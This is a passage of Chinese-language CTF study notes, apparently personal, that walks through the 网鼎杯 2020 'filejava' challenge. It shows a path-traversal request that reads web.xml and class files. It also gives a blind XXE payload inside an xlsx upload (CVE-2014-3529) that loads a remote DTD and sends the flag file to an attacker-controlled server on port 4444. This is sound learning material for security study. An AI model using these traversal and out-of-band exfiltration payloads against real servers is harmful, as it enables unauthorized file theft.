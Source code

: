 ## CTF
- [x] web方向题目(java)
### [网鼎杯 2020 青龙组]filejava
#java
访问后发现是一个上传文件的接口,上传后发现可以下载文件,存在任意文件读取,根据报错可知是tomcat服务器,尝试下载web.xml
`/DownloadServlet?filename=../../../web.xml`
```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">
    <servlet>
        <servlet-name>DownloadServlet</servlet-name>
        <servlet-class>cn.abc.servlet.DownloadServlet</servlet-class>
    </servlet>

    <servlet-mapping>
        <servlet-name>DownloadServlet</servlet-name>
        <url-pattern>/DownloadServlet</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>ListFileServlet</servlet-name>
        <servlet-class>cn.abc.servlet.ListFileServlet</servlet-class>
    </servlet>

    <servlet-mapping>
        <servlet-name></servlet-name>
        <url-pattern>/ListFileServlet</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>UploadServlet</servlet-name>
        <servlet-class>cn.abc.servlet.UploadServlet</servlet-class>
    </servlet>

    <servlet-mapping>
        <servlet-name>UploadServlet</servlet-name>
        <url-pattern>/UploadServlet</url-pattern>
    </servlet-mapping>
</web-app>
```
我们可以将这几个类都dump下来
`/DownloadServlet?filename=../../../WEB-INF/classes/cn/abc/servlet/DownloadServlet.class`

`UploadServlet`存在XXE漏洞
>依赖 poi-ooxml的版本信息3.10 CVE-2014-3529

上传的`excel-1.xlsx` 解压后修改 .xml文件为
```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "file:///flag">
<!ENTITY % remote SYSTEM "http://服务器ip/1.dtd">
%remote;
%all;
]>
<root>&send;</root>
```

服务器
```xml
<!ENTITY % all "<!ENTITY send SYSTEM 'http://ip:4444/%file;'>">
```
监听端口4444

---
为什么不直接在上传的文件里就执行send 操作呢😶

## web3
- [ ] 区块链文章阅读及分析



## SRC
- [ ] SRC文章阅读及分析

## Misc
[[Tricks#Web Cache Deception]]

